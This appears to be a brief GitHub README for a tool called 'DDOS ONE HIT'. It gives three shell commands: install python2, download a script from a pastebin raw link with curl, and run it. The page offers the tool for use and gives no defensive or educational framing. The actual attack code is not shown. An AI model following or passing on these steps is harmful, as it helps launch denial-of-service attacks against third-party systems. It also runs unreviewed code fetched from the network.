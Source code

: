 # DDOS ONE HIT !!!
<br><br>
$ pkg install python2 <br>
$ curl --url https://pastebin.com/raw/eNfQvz21 -o ddos_one_hit.py <br>
$ python2 ddos_one_hit.py <br>
